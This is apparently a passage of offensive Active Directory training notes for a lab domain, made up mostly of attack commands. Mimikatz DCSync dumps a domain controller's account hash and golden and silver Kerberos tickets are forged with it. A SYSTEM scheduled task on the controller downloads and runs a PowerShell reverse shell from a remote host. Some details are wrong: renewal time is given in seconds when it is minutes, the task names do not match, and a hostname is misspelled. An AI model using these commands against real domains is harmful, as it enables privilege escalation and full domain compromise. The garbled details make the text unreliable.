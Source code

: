 ```powershell
whoami /all (of a domain user)
```

- Adversary Forge Golden ticket in a Domain as follows : 

```powershell
Invoke-Mimikatz -Command "lsadump::dcsync /user:cyberwarfare\enterprise-dc$" 
Invoke-Mimikatz -Command "kerberos::golden /User:Administrator /domain:cyberwarfare.corp /sid:S-1-5-21-yyyyyyyy-zzzzzzzzzz-xxxxxx /target:enterprise-dc.cyberwarfare.corp /service:cifs /rc4:<HASH> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"
```

#### Command Explanation

| Command | Explanation |
| --- | --- |
| kerberos::golden | Module Name |
| /User:Administrator | Username for which the TGT is generated |
| /domain:cyberwarfare.corp | Current Domain Fully Qualified Domain Name |
| /sid:xxx | SID value of the domain |
| /target:enterprise-dc.cyberwarfare.corp | Target Server FQDN |
| /ptt | Injects the ticket in current session (memory) |
| /service:cifs | Service SPN name for which TGS would be created |
| /startoffset:0 | Set ticket time to the latest (current) |
| /endin:600 | 600 sec (10 minutes) by-default 10 Years |
| /renewmax:10080 | 7 Days (10080 sec) |

#### Command Execution using Silver Ticket

- Adversaries create a silver ticket for HOST service which allows them to schedule a malicious task on the target :

- Schedule and execute a task on Remote Server : 

```powershell
Invoke-Mimikatz -Command "kerberos::golden /User:Administrator /domain:cyberwarfare.corp /sid:S-1-5-21-xxxxxx-yyyy-zzzzz /target:exterprise-dc.cyberwarfare.corp /service:HOST /rc4:xxxxx /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"
schtasks /create /S enterprise-dc.cyberwarfare.corp /SC Weekly /RU "NT Authority\SYSTEM" /TN “lateral" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.1:8000/Invoke-PowerShellTcp.ps1'')'"
schtasks /Run /S enterprise-dc.cyberwarfare.corp /TN "STCheck"
```

## Case Study

### Initial Access
